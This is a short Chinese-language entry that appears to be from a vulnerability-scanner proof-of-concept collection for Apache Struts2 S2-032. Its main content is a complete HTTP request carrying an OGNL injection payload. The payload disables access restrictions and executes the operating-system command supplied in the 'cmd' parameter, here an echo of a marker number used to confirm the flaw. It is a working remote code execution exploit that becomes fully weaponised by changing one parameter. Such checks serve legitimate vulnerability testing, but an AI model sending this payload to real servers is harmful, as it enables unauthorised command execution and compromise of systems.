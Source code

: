 ﻿# S2_032

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /?method:%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3D%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3D%23res.getWriter(),%23s%3Dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3D%23s.hasNext()%3F%23s.next()%3A%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=echo%2078468794903108696 HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：78468794903108696

> 上传文件定位：

> 验证文件来源：S2_032.poc
